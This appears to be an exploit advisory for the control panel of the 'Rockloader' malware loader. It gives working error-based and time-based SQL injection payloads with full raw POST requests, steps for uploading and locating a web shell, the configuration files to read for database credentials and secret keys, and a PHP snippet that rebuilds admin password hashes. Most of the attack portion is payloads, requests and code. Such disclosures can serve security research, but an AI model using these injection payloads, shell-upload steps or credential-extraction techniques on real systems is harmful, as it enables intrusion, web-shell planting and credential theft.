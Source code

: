# Rockloader

    Type: SQLi and shell file upload
    Author: Danail Velev
    Contact: ICQ: 209030 / d.velev@colocation.bg
    Website: http://colocation.bg/
    Software: https://github.com/colocation/RockLoader-source
    Original Release: https://cxsecurity.com/ascii/WLB-2016070003

## Summary: SQL Injections
NO user registration required. The Command and Control Server processing the spread requests,user tasks and responsible for the process, is suffering from mutiple remote sql injection. Common C&C server path is "/cp/login/" in most common setups. Since the specific of the spreader and it's functionality, methods of encryption and working process, There is possibility for RCE,MSF/CMD injection and local root post 
explotation.

In common cases the setup comes with this specific configs.
- user has full priviligies to host sql server.
- you can interact with local file read in most conditions.
- user is database administrator in most conditions.
- database name and structure are identical since it comes as phpmyadmin dump.
- file write and read is a must.
- user screen capture plugin on advanced setups.
- default database name is 'appdater'


## Proof of Concept:

Affected parameters are "username" and "password" via specifict POST request.
The 3th parameter is the php session.


###----=(SQL Injection 1)=----
```
Type: error-based
Method: POST
Request Type: XMLHttpRequest
Title: MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP 
BY clause (FLOOR)
Payload example for POST parameter username: 
password=S0M3PaSSw0rd&username=-1' OR 32 AND ROW(9213,8915)>(SELECT 
COUNT(*),CONCAT(0x716a707071,(SELECT 
(ELT(9213=9213,1))),0x71767a7071,FLOOR(RAND(0)*2))x FROM (SELECT 4118 
UNION SELECT 5903 UNION SELECT 7493 UNION SELECT 1139)a GROUP BY x)-- 
KSxg1=6 AND 000580=000580 --
Example raw request for host: 127.0.0.1
-----------------EXAMPLE--------------------
POST /cp/login/ HTTP/1.1
Content-Length: 87
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: 127.0.0.1/cp/login/
Cookie: PHPSESSID=c4u29lkhiavel5vt14tchcb190
Host: 127.0.0.1
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 
(KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
password=S0M3PaSSw0rd&username=d0na1DTrump
-----------------END--------------------
```
###----=(SQL Injection 2)=----
```
Type: AND/OR time-based blind
Method: POST
Request Type: XMLHttpRequest
Title: MySQL >= 5.0.12 AND time-based blind
Payload example for POST parameter username: 
password=S0M3PaSSw0rd&username=-1' OR 32 AND SLEEP(5)-- sWMh1=6 AND 
000580=000580 --
Example raw request for host: 127.0.0.1
-----------------EXAMPLE--------------------
POST /cp/login/ HTTP/1.1
Content-Length: 87
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: 127.0.0.1/cp/login/
Cookie: PHPSESSID=c4u29lkhiavel5vt14tchcb190
Host: 127.0.0.1
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 
(KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
password=S0M3PaSSw0rd&username=d0na1DTrump
-----------------END--------------------
```

###----=(Shell Upload POC)=----
```
Requirements:
- Valid user for control panel.
- Access to database for reading.

Step1:
Upload your shell as new file via Control Panel.
Name it: OWNED
Note: filename is masked in control panel

Step2:
See 'file' table at 'appdater' database.
QUERY: SELECT * FROM `file`;
Look for name=OWNED and coresponding file_path name (EXAMPLE: 
C932kc.php)

Step3:
Location of your Shell
http://127.0.0.1/files/c932kc.php

-----------------END--------------------
```
###----=(Database user and password disclose)=----
```

Example request to get the directory location:

===============================================
POST /cp/login/ HTTP/1.1
Content-Length: 87
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: 127.0.0.1/cp/login/
Cookie: PHPSESSID=c4u29lkhiavel5vt14tchcb190
Host: 127.0.0.1
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 
(KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
password=S0M3PaSSw0rd&username=d0na1DTrump
===============================================
Response if error reporting is enabled:

<br />
<b>Notice</b>:  A session had already been started - ignoring 
session_start() in <b>/var/www/html/cp/login/auth.php</b> on line 
<b>23</b><br />


===============================================

Read the settings.php file of the control panel to obtain user and 
password for database.
location: /var/www/html/cp/settings.php

----Snip-----
<?php
//Debug
ini_set('error_reporting', E_ALL);  // REMOVE TO TURN DEBUG OFF
ini_set('display_errors', 1);       // REMOVE TO TURN DEBUG OFF

//MySQL settings
define('DB_HOSTNAME', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', '');
define('DB_DATABASE', 'appdater'); <- most of the time this is the 
default database since it's come in the bundle.
define('DB_PORT', '3307');

......
---EndSnip---
```
###----=(XOR Encrypton key and password salt disclose)=----
```

Read the settings.php file (/var/www/appdater/html/settings.php)
Look at the global configuration for the app.

----Snip-----
//GLOBAL settings
define('XOR_KEY', 'aWL~jH9zJl$5Yfz7'); <- File encryption XOR_KEY
define('FILES_URL', 'https://summerr554fox.su/files/'); <- address of 
all uploaded files
define('APPDATER_PATH', '/var/www/html/');
define('SALT', 'KsqwGzTl?Qwq|oHA'); <- SALT KEY FOUND !
?>
---EndSnip---
TADAAAAAAAAAAAAAAAAAAAAAAAAAa we got the password for the sql and even 
more: XOR_KEY for file encyption, EXE files location, PATH to the 
Control Panel anddd....
The most important --> THE SALT !

```
###---=(Admin panel password generator)=---
```

Read the core/functions.php file 
(/var/www/appdater/html/core/functions.php)
Look for this

---Snip-----
     function create_hash( $string ) {
         return substr( sha1( SALT . $string ), 3, 17 );
     }
----EndSnip---

TADAAAA so we got and the algo used to create correct user and 
password.


<?php
define('SALT', 'KsqwGzTl?Qwq|oHA');
     function create_hash( $string ) {
         return substr( sha1( SALT . $string ), 3, 17 );
     }
echo create_hash('S0M3PaSSw0rd');
?>

```
